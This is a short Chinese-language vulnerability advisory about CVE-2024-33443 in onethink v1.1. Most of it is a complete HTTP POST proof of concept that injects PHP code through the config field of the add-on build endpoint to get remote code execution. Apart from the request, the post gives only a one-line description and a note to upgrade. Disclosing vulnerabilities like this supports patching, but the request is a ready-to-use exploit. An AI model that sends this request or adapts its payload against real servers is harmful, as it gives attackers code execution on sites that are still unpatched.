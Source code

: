 #  【漏洞预警】onethink安全漏洞(CVE-2024-33443)   
cexlife  飓风网络安全   2024-04-30 22:58  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu017pmibR9qxxQPV8UCmoLyfibLIjyFP3Kl7zxF6bTia6QlFd0aRTpnKBEXKF0ic8cL6V001HibDMZAYzRw/640?wx_fmt=png&from=appmsg "")  
  
**漏洞描述:**  
  
оnеthinkv.1.1中的一个问题允许远程攻击者通过精心制作的脚本对AddоnѕCоntrоllеr.сlаѕѕ.php组件执行任意代码。  
  
****  
**poc:**  
  
POST /admin.php?s=/Addons/build.html HTTP/1.1Host: *******Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8X-Requested-With: XMLHttpRequestContent-Length: 1747Origin: ********DNT: 1Sec-GPC: 1Connection: closeReferer: *******Cookie: PHPSESSID=*********; onethink_admin___forward__=%2Fadmin.php%3Fs%3D%2FAddons%2Findex.htmlinfo%5Bname%5D=Examplepoi&info%5Btitle%5D=%E7%A4%BA%E5%88%97&info%5Bversion%5D=0.1&info%5Bauthor%5D=%E6%97%A0%E5%90%8D&info%5Bdescription%5D=%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E4%B8%B4%E6%97%B6%E6%8F%8F%E8%BF%B011&info%5Bstatus%5D=1&config=%3C%3Fphp%20phpinfo%28%29%3B%3F%3E&custom_config=&admin_list='model'%3D%3E'Example'%2C%09%09%2F%2F%E8%A6%81%E6%9F%A5%E7%9A%84%E8%A1%A8%0D%0A%09%09%09'fields'%3D%3E'*'%2C%09%09%09%2F%2F%E8%A6%81%E6%9F%A5%E7%9A%84%E5%AD%97%E6%AE%B5%0D%0A%09%09%09'map'%3D%3E''%2C%09%09%09%09%2F%2F%E6%9F%A5%E8%AF%A2%E6%9D%A1%E4%BB%B6%2C+%E5%A6%82%E6%9E%9C%E9%9C%80%E8%A6%81%E5%8F%AF%E4%BB%A5%E5%86%8D%E6%8F%92%E4%BB%B6%E7%B1%BB%E7%9A%84%E6%9E%84%E9%80%A0%E6%96%B9%E6%B3%95%E9%87%8C%E5%8A%A8%E6%80%81%E9%87%8D%E7%BD%AE%E8%BF%99%E4%B8%AA%E5%B1%9E%E6%80%A7%0D%0A%09%09%09'order'%3D%3E'id+desc'%2C%09%09%2F%2F%E6%8E%92%E5%BA%8F%2C%0D%0A%09%09%09'list_grid'%3D%3Earray(+%09%09%2F%2F%E8%BF%99%E9%87%8C%E5%AE%9A%E4%B9%89%E7%9A%84%E6%98%AF%E9%99%A4%E4%BA%86id%E5%BA%8F%E5%8F%B7%E5%A4%96%E7%9A%84%E8%A1%A8%E6%A0%BC%E9%87%8C%E5%AD%97%E6%AE%B5%E6%98%BE%E7%A4%BA%E7%9A%84%E8%A1%A8%E5%A4%B4%E5%90%8D%E5%92%8C%E6%A8%A1%E5%9E%8B%E4%B8%80%E6%A0%B7%E6%94%AF%E6%8C%81%E5%87%BD%E6%95%B0%E5%92%8C%E9%93%BE%E6%8E%A5%0D%0A++++++++++++++++'cover_id%7Cpreview_pic%3A%E5%B0%81%E9%9D%A2'%2C%0D%0A++++++++++++++++'title%3A%E4%B9%A6%E5%90%8D'%2C%0D%0A++++++++++++++++'description%3A%E6%8F%8F%E8%BF%B0'%2C%0D%0A++++++++++++++++'link_id%7Cget_link%3A%E5%A4%96%E9%93%BE'%2C%0D%0A++++++++++++++++'update_time%7Ctime_format%3A%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4'%2C%0D%0A++++++++++++++++'id%3A%E6%93%8D%E4%BD%9C%3A%5BEDIT%5D%7C%E7%BC%96%E8%BE%91%2C%5BDELETE%5D%7C%E5%88%A0%E9%99%A4'%0D%0A++++++++++++)%2C%0D%0A%09%09%09%09%09&custom_adminlist=&has_config=1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu017pmibR9qxxQPV8UCmoLyfibPV8Ns2hSHqFaicytVQ1bBsL0ClQ70FOsoDg6iaRB3IDq5I5gmkeO1Kgw/640?wx_fmt=png&from=appmsg "")  
  
**修复方法:**目前官方已有可更新版本,建议受影响用户升级至最新版本.  
  
  
  
